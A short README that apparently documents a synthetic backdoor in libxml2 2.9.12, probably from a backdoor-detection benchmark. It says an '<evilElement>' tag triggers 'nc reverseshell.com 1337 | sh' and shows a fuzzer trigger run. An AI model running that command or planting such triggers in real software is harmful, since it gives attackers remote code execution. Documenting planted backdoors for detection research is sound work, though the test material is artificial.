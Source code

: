 # Libxml2 2.9.12 backdoor
- **Type**: hidden command
- **Affected versions**: none (synthetic backdoor)


## Backdoor
If the XML file contains the tag `<evilElement>` under specific conditions, it runs the command
`timeout 0.05s nc reverseshell.com 1337 | sh`, in an attempt to execute some remote code.


## Triggering the backdoor
We can use a valid `.xml` file containing the appropriate tag to trigger the backdoor (e.g., with
the _backdoored_ version):
```console
$ ./backdoored/libxml2_xml_reader_for_file_fuzzer < backdoor-trigger.xml
Unknown host
```
The `"Unknown host"` message comes from the fact that the `netcat` command cannot actually connect
to port 1337 of `reverseshell.com`.
